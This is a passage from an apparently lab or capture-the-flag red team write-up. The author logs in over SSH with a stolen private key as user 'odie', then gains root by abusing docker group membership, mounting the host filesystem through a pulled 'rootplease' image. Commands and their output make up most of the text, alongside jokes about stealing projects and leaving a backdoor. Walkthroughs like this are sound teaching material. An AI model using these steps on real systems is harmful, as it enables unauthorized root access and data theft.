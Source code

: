 Yay! I'll be able to get a real shell!

### It's over...

```bash
host $ chmod 600 odie_priv.key 
host $ ssh -i odie_priv.key odie@192.168.122.147
odie@webserver $ id
uid=1000(odie) gid=1000(odie) groupes=1000(odie),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)
```

Yeeeeeeeees! Here I am with the identity of __Odie__ on his system, I will be able to steal all ENSIBS projects! I could stop the attack here...


![](https://media.giphy.com/media/YTbZzCkRQCEJa/giphy.gif)


... Or not. In case of real red team operation, you can't surrender before being __root__ and remove all traces left behind. And when you're __root__ you're able to give a little present: a backdoor :D

Here, I executed the `id` command to make sure of my rights. I saw something really nice: the __odie__ user is in the `docker` group. Odie probably made this because he is too lazy to do `sudo` before doing some docker stuff. But because of this, I'm able to get __root__ access.

Indeed, `docker` daemon is going to access to the __root__ user, but also to all users in `docker` group. In this way, it's possible to get a __root__ shell.

```bash
odie@webserver $ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
hello-world         latest              4ab4c602aa5e        3 months ago        1.84kB

odie@webserver $ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
Unable to find image 'chrisfosterelli/rootplease:latest' locally
latest: Pulling from chrisfosterelli/rootplease
2de59b831a23: Downloading [==========================================>        ]  56.22de59b831a23: Pull complete 
354c3661655e: Pull complete 
91930878a2d7: Pull complete 
a3ed95caeb02: Pull complete 
489b110c54dc: Pull complete 
Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
root@webserver # id
uid=0(root) gid=0(root) groups=0(root)
```


![](/img/articles/realgsmoveinsilencelikelasagna/red_17.gif)
